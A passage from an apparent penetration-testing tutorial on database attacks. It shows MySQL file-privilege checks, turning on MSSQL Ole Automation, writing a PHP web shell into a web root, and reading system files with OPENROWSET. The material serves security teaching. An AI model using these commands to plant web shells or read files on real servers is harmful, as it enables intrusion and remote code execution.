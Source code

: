 ### **MySQL - Secure File Privileges**

```shell-session
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```

To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:

### **MSSQL - Enable Ole Automation Procedures**

```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

### **MSSQL - Create a File**

```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

## Read Local Files

By default, `MSSQL` allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:

### **Read Local Files in MSSQL**

```cmd-session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO

BulkColumn

-----------------------------------------------------------------------------
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to hostnames. Each
# entry should be kept on an individual line. The IP address should

(1 rows affected)
```